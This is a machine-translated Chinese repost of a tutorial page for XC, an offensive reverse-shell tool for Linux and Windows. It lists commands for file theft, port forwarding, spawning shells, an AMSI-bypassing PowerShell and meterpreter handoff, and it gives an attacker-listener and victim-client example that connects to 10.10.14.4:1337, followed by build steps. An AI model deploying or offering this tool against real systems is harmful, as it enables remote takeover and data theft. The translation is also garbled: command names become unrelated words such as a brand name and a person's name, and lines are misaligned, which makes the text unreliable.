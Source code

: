 # Linux 和 Windows 的反向小外壳

> 原文：<https://kalilinuxtutorials.com/xc/>

[![](img/a7a81e064e0d55c03ba821d20545a7da.png)](https://blogger.googleusercontent.com/img/a/AVvXsEgQBVN90VsAw7erLA4up8S4UpxQE9Dt8dad5iNRqBAwDSfR0fsXJKIzNmbpRASkmoIpAKI7Tw4wcP0_j_3m-9YesEfyUiqpivfmkiqCkM5o0y7qLzlTvQTyqIi8pMIYuNax6qTbIyIcduEAJePtHA8XpVom4RXy2uxSvXQNkvELE7tngS9SSXDAcILK=s728)

**XC** 是一个类似 Netcat 的用于 Linux & Windows 的反向 shell。

**特性**

**窗户**

**用法:
└共享命令:！退出
！上传**

*   **上传文件到目标
    ！下载**
*   **从目标
    下载文件！lfwd**
*   **本地端口转发(如 ssh -L)
    ！rfwd**
*   **远程端口转发(如 ssh -R)
    ！lsfwd**
*   **列出主动转发
    ！rmfwd**
*   **按索引向前删除
    ！插件**
*   **列出可用插件
    ！插件**
*   **执行一个插件
    ！产卵**
*   **在指定端口
    产生另一个客户端！壳牌**
*   运行/bin/sh
    ！鲁纳斯
*   **用指定用户
    重启 xc！遇到了**
*   **连接到 x64/meterpreter/reverse_tcp 监听器└操作系统特定命令:！powershell**
    *   **通过 AMSI 旁路
        启动 powershell！rc**
    *   **连接到本地 bind shell 并通过它重新启动该客户端
        ！鲁纳普斯**
    *   **使用 powershell
        以指定用户重启 xc！vulns**
    *   **检查常见漏洞**

**Linux**

**用法:
└共享命令:！退出
！上传**

*   **上传文件到目标
    ！下载**
*   **从目标
    下载文件！lfwd**
*   **本地端口转发(如 ssh -L)
    ！rfwd**
*   **远程端口转发(如 ssh -R)
    ！lsfwd**
*   **列出主动转发
    ！rmfwd**
*   **按索引向前删除
    ！插件**
*   **列出可用插件
    ！插件**
*   **执行一个插件
    ！产卵**
*   **在指定端口
    产生另一个客户端！壳牌**
*   运行/bin/sh
    ！鲁纳斯
*   **用指定用户
    重启 xc！遇到了**
*   **连接到 x64/meterpreter/reverse_tcp 监听器
    └操作系统特定命令:
    ！宋承宪**
*   **使用指定端口**上配置的密钥启动 sshd

**例题**

*   Linux 攻击者:`**rlwrap xc -l -p 1337**`(服务器)
*   WindowsVictim : `**xc.exe 10.10.14.4 1337**`(客户端)
*   参数 ss:

**设置**

请确保您运行的是 golang 版本，旧版本将无法编译。我在 ubuntu: `**go version go1.16.2 linux/amd64**`和 kali `**go version go1.15.9 linux/amd64**`上测试过

**git clone–recurse-submodules https://github.com/xct/xc.git
go 111 module = off go getgolang.org/x/sys/…
go 111 module = off go get golang.org/x/text/encoding/unicode
go 111 module = off go get github.com/hashicorp/yamux
sudo apt-get install rlwrap upx**

**Linux**

**python3 build.py**

[**Download**](https://github.com/xct/xc)